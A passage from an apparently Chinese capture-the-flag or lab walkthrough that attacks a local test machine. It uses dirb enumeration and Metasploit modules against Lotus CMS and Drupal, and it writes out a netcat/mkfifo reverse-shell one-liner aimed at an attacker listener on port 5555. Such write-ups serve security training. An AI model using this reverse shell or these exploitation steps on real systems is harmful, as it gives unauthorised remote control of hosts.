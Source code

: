 `echo "mkfifo /tmp/qadshdh; nc 192.168.56.1 5555 0&lt;/tmp/qadshdh | /bin/sh &gt;/tmp/qadshdh 2&gt;&amp;1; rm /tmp/qadshdh" &gt; script.sh`

运行./script.sh之前开启监听

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0157c4763e0fecf6d7.jpg)

开启监听端口

`nc -lvp 5555`

[![](https://p0.ssl.qhimg.com/t017f3fca4a940cd44a.jpg)](https://p0.ssl.qhimg.com/t017f3fca4a940cd44a.jpg)

### <a class="reference-link" name="dirb%20%E6%89%AB%E6%8F%8F"></a>dirb 扫描

在dirb扫描中有cms,durpal,phpmyadmin等

[![](https://p4.ssl.qhimg.com/t01a4e5fb78f5de3563.jpg)](https://p4.ssl.qhimg.com/t01a4e5fb78f5de3563.jpg)

### <a class="reference-link" name="Lotus%20CMS"></a>Lotus CMS

访问cms:[http://192.168.56.150/cms](http://192.168.56.150/cms)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01079dab2fc55c78e0.png)

[![](https://p4.ssl.qhimg.com/t01799fb1d118ad2342.png)](https://p4.ssl.qhimg.com/t01799fb1d118ad2342.png)

利用msf的lotus cms模块

[![](https://p5.ssl.qhimg.com/t0184bb412ebfa0ec62.jpg)](https://p5.ssl.qhimg.com/t0184bb412ebfa0ec62.jpg)

[![](https://p0.ssl.qhimg.com/t0196b54ca25a577e03.jpg)](https://p0.ssl.qhimg.com/t0196b54ca25a577e03.jpg)

### <a class="reference-link" name="Drupal%20CMS"></a>Drupal CMS

访问drupal: [http://192.168.56.150/drupal](http://192.168.56.150/drupal)

[![](https://p3.ssl.qhimg.com/t0140bb33eba0faa83b.png)](https://p3.ssl.qhimg.com/t0140bb33eba0faa83b.png)

再次使用msf的durpal cms模块

[![](https://p5.ssl.qhimg.com/t01000baeba088928ce.jpg)](https://p5.ssl.qhimg.com/t01000baeba088928ce.jpg)

### <a class="reference-link" name="others"></a>others
